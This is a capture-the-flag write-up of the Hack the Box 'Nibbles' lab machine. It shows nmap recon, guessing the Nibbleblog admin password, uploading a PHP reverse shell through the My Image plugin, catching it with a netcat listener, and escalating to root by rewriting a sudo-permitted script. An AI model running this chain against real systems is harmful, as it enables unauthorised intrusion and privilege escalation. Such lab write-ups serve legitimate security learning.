


Nibbles Writeup
“My writeup of the Hack the box Nibbles box… Nibble nibble!”
Connecting to Hack the Box1 using the supplied VPN, my Nibbles box have the IP: 10.10.10.75 As per usual, lets start with Recon and NMAP the target IP
root@kali:~/Nibbles$ nmap -p- --version-all -sV -sS 10.10.10.75
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-09 07:44 CET
Nmap scan report for nibbles.htb (10.10.10.75)
Host is up (0.047s latency).
Not shown: 65533 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.18 seconds
Seeing port 80 open, lets browse to that and look at the source code, as the base directory doesn’t show anything revealing.
<b>Hello world!</b>
<!-- /nibbleblog/ directory. Nothing interesting here! -->
Seeing that we have a new directory to explore, lets go to /nibbleblog/.
So that points to the Content Management System (CMS) called Nibbleblog, which is opensource and free to download the sourcecode, which means we can take a look at it.
A bit of googling points me to the github https://github.com/dignajar/nibbleblog
Where the basefile admin.php looks interesting, and sure enough it does exist on our target.
The next interesting file from the github looks to be “install.php”, on our target blog it is obviously already installed, nontheless it might be worth checking out!
Lets follow the update link to the update page!

So this further reveals two files where one is quite interesting, as config files usually contains usernames even possibly passwords, and other essential config parameters!
So lets browse to /nibbleblog/content/private/config.xml
<config>
[...snip...]
<notification_email_to type="string">admin@nibbles.com</notification_email_to>
<notification_email_from type="string">noreply@10.10.10.134</notification_email_from>
<seo_site_title type="string">Nibbles - Yum yum</seo_site_title>
[...snip...]
</config>
So this time the config file does not reveal any passwords, although we’re not emptyhanded as we do get a valid username “admin”. After some further enumeration I could not find a hint towards a password or any other vulnerability to use. So I resulted in trying THC-Hydra2 and a small passwordlist in an attempt to run a dictionary against the login page! Which only got me on their blacklist and blocked me a couple minutes from making further login attempts.

Then after some further checking of the source code, i recalled it supposed to be a fairly simple box, so back to some default passwords. Bingo, user: Admin, Password: nibbles so a weak password indeed. Doing a grep for the password “nibbles” in the standard “rockyou.txt” that is included in Kali linux.
root@kali:~/Wordlists$ grep 'nibbles' rockyou.txt
nibbles
nibbles1
[...snip...]
We can see that doing the hydra would indeed work… eventually, you’d just have to do some timeouts between attempts. Either way, we have the password and is logged in to the CMS admin panel!

Next up would be to try and get a shell on the system somehow, so back to google! It eventually pointed me to another security researchers blog
The PoC Exploit work in 4 steps:
1. Obtain Admin credentials
2. Activate My image plugin
3. Upload PHP shell, ignore warnings
4. Visit http://localhost/nibbleblog/content/private/plugins/my_image/image.php
So since we are already logged in, we can go to step two and activate the “My Image Plugin” under Plugins in the CMS Admin Panel. Then lets create and upload a php reverse shell. My favourite php-reverse-shell is included in kali, that pentestmonkey created. Copy that to the working directory by issuing.
root@kali:~/Nibbles$ cp /usr/share/webshells/php/php-reverse-shell.php .
Then edit the $ip and $port variable in the php script, in this example i use port 4000. Once thats done, we can upload it to the CMS and start a netcat listener on our chosen port with (nc -lvvp 4000)
In this example i used curl to trigger the RCE since the image.php is in a public folder.
root@kali:~/Nibbles$ curl http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
That should kick of a basic shell created by the PHP script to the Netcat listener. Although the shell we recieve is a limited one, so lets enumerate which perl and python libraries are present to escape the limited shell.
root@kali:~/Nibbles$ nc -lvvp 4000
listening on [any] 4000 ...
connect to [10.10.14.2] from nibbles.htb [10.10.10.75] 49562
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
01:55:01 up 4 days, 6:33, 0 users, load average: 0.00, 0.00, 0.00
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ which python
$ which perl
/usr/bin/perl
$ which python3
/usr/bin/python3
$ python3 -c "import pty; pty.spawn('/bin/bash');"
nibbler@Nibbles:/$ ls /home/nibbler
ls /home/nibbler
personal personal.zip user.txt
nibbler@Nibbles:/$
Since i am a Python guy, that’s a quite an easy choice.
Now that we have the user.txt flag, lets get root!
One easy command to run is sudo -l, which will report if the current user is in the /etc/sudoers file, as well list what commands the current user is allowed to run.
nibbler@Nibbles:/$ sudo -l
sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User nibbler may run the following commands on Nibbles:
(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/$
Easy enough, at a quick glance in enumeration we can see that user nibbler is allowed to run /home/nibbler/personal/stuff/monitor.sh as root without a password!
At this point getting the root flag should be fairly simple!
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "/bin/cat /root/root.txt" > monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
b6d745[...snip...]8ef88c
nibbler@Nibbles:/home/nibbler/personal/stuff$
Done.